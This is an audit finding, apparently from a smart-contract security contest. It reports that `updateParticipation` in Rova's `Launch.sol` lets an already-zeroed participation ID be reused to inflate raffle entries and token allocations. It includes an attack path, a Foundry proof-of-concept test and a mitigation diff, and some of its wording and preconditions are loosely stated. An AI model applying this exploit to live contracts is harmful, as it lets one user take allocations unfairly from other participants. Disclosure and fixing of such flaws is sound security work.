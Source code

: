 Wonderful Peach Fly

High

# Users Can Bypass Participation Restrictions to Get More Token Distribution in a Launch Group

### Summary

In the `Launch.sol` contract, the `updateParticipation` function allows for the update of participation records but fails to fully invalidate previous participation records `if prevInfo.currencyAmount == 0 || prevInfo.tokenAmount = 0`, leading to the risk of record reuse. This flaw may allow users to bypass participation restrictions for launch group of `non-finalizesAtParticipation`, leading to manipulation of participation-based logic, such as token distribution, especially in cases where random distribution or Raffle mechanisms depend on participation counts.

### Root Cause

The `updateParticipation` function allows users to create new participations by repeatedly modifying an old participation. This is because the function only sets the `prevInfo.currencyAmount = 0; prevInfo.tokenAmount = 0;` of the old participation when updating it, and it does not check whether the previous `prevInfo.currencyAmount = 0; prevInfo.tokenAmount = 0` are already zero during the **next update**.

Therefore, users can exploit this behavior to create numerous participations, thereby increasing their chances of winning the Raffle and gaining more token shares due to:

1. Lack of historical record validation  
2. Using zeroing instead of proper status marking  

[rova-contracts/src/Launch.sol:updateParticipation#L386-L387](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L386C1-L387C34)
```solidity
    function updateParticipation(UpdateParticipationRequest calldata request, bytes calldata signature)
        external
        nonReentrant
        whenNotPaused
        onlyLaunchGroupStatus(request.launchGroupId, LaunchGroupStatus.ACTIVE)
{
...
        ParticipationInfo storage prevInfo = launchGroupParticipations[request.prevLaunchParticipationId];
    
         // ... Validation logic ...

         // Handling transfer 
    
        // @audit Error: Only zeroing out the amounts, allowing this participation to be reused and essentially creating more new participation for Raffle
        prevInfo.currencyAmount = 0;
        prevInfo.tokenAmount = 0;
```

### Internal Pre-conditions

A previously used participation ID can be reused many times to create new participation.

### External Pre-conditions

The contract must checks for whether a participation ID has already been used or updated.

### Attack Path

Attackers or Common Users can exploit this vulnerability by following these steps:
1. The user obtains a valid `participationId_1`  
   - `tokenAmount = 100`  
   - `currencyAmount = 1000`  

2. The user calls `updateParticipation`  
   - `prevId = participationId_1`  
   - `newId = participationId_2`  
   - `participationId_1` is zeroed out  
   - `participationId_2` has new allocations  

3. The user reuses `participationId_1`  
   - `prevId = participationId_1`  
   - `newId = participationId_3`  
   - `participationId_1` is zeroed out  
   - `participationId_3` has new allocations 
   
Results: Since it is only zeroed out and not marked as invalid, It can be used again for new participation. This bypasses the participation limit

### Impact

1.**Bypassing Participation Limits**: Attackers can bypass token or participation limits, allowing them to unfairly increase their chances of winning or gaining additional tokens.
2.**Undermines the rights of other participants**: resulting in an unfair distribution of tokens or rewards.

### PoC

Here’s an outline of the POC:

1. **Step 1: Obtain Participation ID**:
   - Attacker participates in the event, receiving a valid `participationId_1`.

2. **Step 2: Use `updateParticipation`**:
   - The attacker invokes `updateParticipation` with the `prevLaunchParticipationId = participationId_1`, which sets the token and currency amounts to zero, but does not invalidate or mark the participation ID as used.

3. **Step 3: Reuse Participation ID**:
   - The attacker reuses the same `participationId_1` in subsequent participation events, bypassing the system’s intended restrictions.

<details><summary><b> POC </b></summary>

```solidity
function testExploitParticipationReuse() public {
    // 1. Create the first participation record
    bytes32 participationId1 = bytes32(uint256(1));
    ParticipationRequest memory request1 = ParticipationRequest({
        launchGroupId: launchGroupId,
        launchParticipationId: participationId1,
        userId: userId,
        userAddress: user,
        tokenAmount: 5e18,
        currencyAmount: 5e18,
        currency: address(token)
    });
    
    // Signature-related setup
    bytes memory signature1 = _generateSignature(request1);
    
    // Submit the first participation
    vm.prank(user);
    launch.participate(request1, signature1);
    
    // 2. Update the participation record
    bytes32 participationId2 = bytes32(uint256(2));
    UpdateParticipationRequest memory updateRequest = UpdateParticipationRequest({
        launchGroupId: launchGroupId,
        prevLaunchParticipationId: participationId1,
        newLaunchParticipationId: participationId2,
        userId: userId,
        userAddress: user,
        tokenAmount: 6e18,
        currencyAmount: 6e18,
        currency: address(token)
    });
    
    bytes memory updateSignature = _generateSignature(updateRequest);
    
    // Execute the update
    vm.prank(user);
    launch.updateParticipation(updateRequest, updateSignature);
    
    // 3. Reuse the zeroed-out participationId1
    bytes32 participationId3 = bytes32(uint256(3));
    UpdateParticipationRequest memory reusedRequest = UpdateParticipationRequest({
        launchGroupId: launchGroupId,
        prevLaunchParticipationId: participationId1,  // Reuse the zeroed-out ID
        newLaunchParticipationId: participationId3,
        userId: userId,
        userAddress: user,
        tokenAmount: 4e18,
        currencyAmount: 4e18,
        currency: address(token)
    });
    
    bytes memory reuseSignature = _generateSignature(reusedRequest);
    
    // Successfully reuse the zeroed-out participation record
    vm.prank(user);
    launch.updateParticipation(reusedRequest, reuseSignature);
    
    // 4. Verify the exploit results
    // Check that the user now has multiple valid participation records
    assertEq(
        launch.getUserParticipationCount(launchGroupId, userId),
        2,  // Should only have 1, but now has 2
        "Exploit successful: Multiple participations created"
    );
}

```

</details>

### Mitigation

It is recommended to track Participation Status to check whether the participation has been updated, cancelled, or is active. This will ensure that the participation record cannot be reused or altered without proper validation. Alternatively, a simpler solution is to validate participation amounts before updating. Ensure that the previous participation is still valid before performing any updates. If the currencyAmount or tokenAmount is zero, the participation should be considered invalid and rejected in the updating action. 

```solidity
function updateParticipation(
    UpdateParticipationRequest calldata request,
    bytes calldata signature
) external nonReentrant whenNotPaused {
...
    ParticipationInfo storage prevInfo = launchGroupParticipations[request.prevLaunchParticipationId];
    
    // 1. Validate that the amounts are not zero (i.e., the participation has not been updated yet)
+   if (prevInfo.currencyAmount == 0 || prevInfo.tokenAmount == 0) {
+       revert InvalidPreviousParticipation();
+   }
    
    // 2. Additional validation...
    
    // 3. Zero out the old record
    prevInfo.currencyAmount = 0;
    prevInfo.tokenAmount = 0;
    
...
}

```